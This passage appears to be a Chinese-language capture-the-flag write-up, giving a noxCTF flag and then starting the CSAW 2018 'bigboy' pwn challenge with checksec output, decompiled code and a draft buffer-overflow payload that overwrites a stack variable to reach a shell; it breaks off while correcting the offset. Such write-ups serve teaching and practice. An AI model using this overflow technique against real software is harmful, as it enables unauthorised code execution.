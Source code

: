 ```
noxCTF{M1nd_7he_Input}
```



### CSAW CTF

#### PWN—bigboy

简单的bof类型题目，先检查文件

```bash
➜  bigboy file boi
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
➜  bigboy checksec boi
[*] '/home/Ep3ius/pwn/process/CSAW2018/bigboy/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

idaF5看一下程序逻辑

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = 0xDEADBEEF;
  puts("Are you a big boiiiii??");
  read(0, &buf, 24uLL);
  if ( HIDWORD(v6) == 0xCAF3BAEE )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```
本以为构造payload = 'a'* (0x30-0x20)+p32(0xCAF3BAEE)就可以直接过if判断getshell，然而事情并没那么简单，gdb调试一下发现0xCAF3BAEE距离我们想要出现在的位置差了4

